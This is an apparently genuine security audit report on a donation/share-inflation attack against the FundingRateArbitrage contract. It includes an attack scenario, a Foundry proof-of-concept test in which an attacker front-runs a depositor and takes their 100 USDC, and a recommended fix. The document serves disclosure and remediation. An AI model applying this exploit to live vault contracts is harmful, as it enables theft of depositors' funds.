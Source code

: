 Suave Mint Hare

high

# Donation attack can steal other user's funds in FundingRateArbitrage

## Summary
Classic ERC4626 donation attack is possible in FundingRateArbitrage.sol.

## Vulnerability Detail
When a deposit is made in FundingRateArbitrage.sol, `earnUSDCAmount` can round down to 0 if `getIndex()` is large enough. 

```solidity
uint256 earnUSDCAmount = amount.decimalDiv(getIndex());
```

Next, `getIndex()` can become a very large amount if `totalEarnUSDCBalance` is small enough.

```solidity
function getIndex() public view returns (uint256) {
        if (totalEarnUSDCBalance == 0) {
            return 1e18; 
        } else { 
            return SignedDecimalMath.decimalDiv(getNetValue(), totalEarnUSDCBalance);
        }
    }
```


Consider this attack scenario:
1. Alice makes a deposit of 1 wei (small totalEarnUSDCBalance)
2. Alice observes Bob making a deposit of 100 USDC
3. Alice front runs and donates to FundingRateArbitrage by directly transferring 100 USDC to the contract which inflates index to a large value
4. Bob's deposit is successful but his `earnUSDCBalance` is 0 due to rounding - he has no shares
5. Alice then withdraws everything and including Bob's 100 USDC

POC attached, run in FundingRateArbitrageTest.t.sol
```solidity
function test_attack() public {
      USDC.mint(alice, 1000e6);
      vm.startPrank(alice);
      USDC.approve(address(fundingRateArbitrage), type(uint256).max);

      // Alice the attacker makes deposit of 1 wei
      fundingRateArbitrage.deposit(1);

      // Observes Bob depositing, front runs and inflate index to v large amount
      USDC.transfer(address(fundingRateArbitrage),100e6);
      // console.log("Index:", fundingRateArbitrage.getIndex());

      // Bob the user deposits 100 USDC
      USDC.mint(bob, 100e6);
      vm.startPrank(bob);
      USDC.approve(address(fundingRateArbitrage), 100e6);
      fundingRateArbitrage.deposit(100e6);
      assertEq(fundingRateArbitrage.earnUSDCBalance(bob), 0); // earnUSDCBalance rounds down to 0

      // Alice withdraws everything
      vm.startPrank(alice);
      jusd.mint(alice, 1);
      jusd.approve(address(fundingRateArbitrage), type(uint256).max);
      uint256 index = fundingRateArbitrage.requestWithdraw(1);

      vm.startPrank(Owner);
      uint256[] memory indexs = new uint256[](1);
      indexs[0] = index;
      fundingRateArbitrage.permitWithdrawRequests(indexs);
      assertEq(USDC.balanceOf(alice), 1100e6); // 1000 initial + bob's 100

      // Bob withdraws everything
      vm.startPrank(bob);
      jusd.mint(bob, 100e6);
      jusd.approve(address(fundingRateArbitrage), type(uint256).max);
      uint256 index2 = fundingRateArbitrage.requestWithdraw(100e6);

      vm.startPrank(Owner);
      uint256[] memory indexs2 = new uint256[](1);
      indexs2[0] = index2;
      fundingRateArbitrage.permitWithdrawRequests(indexs2);
      assertEq(USDC.balanceOf(bob), 0);
    }
```
## Impact
At a cost of 1 wei, Alice is able to steal everything from the next user.

## Code Snippet
https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L265
https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L98

## Tool used
Manual Review

## Recommendation
Consider having the Owner do an initial deposit (even a 1 USDC will make the cost of attack much more expensive), or consider the extensively discussed solutions for ERC4626 see https://blog.openzeppelin.com/a-novel-defense-against-erc4626-inflation-attacks.

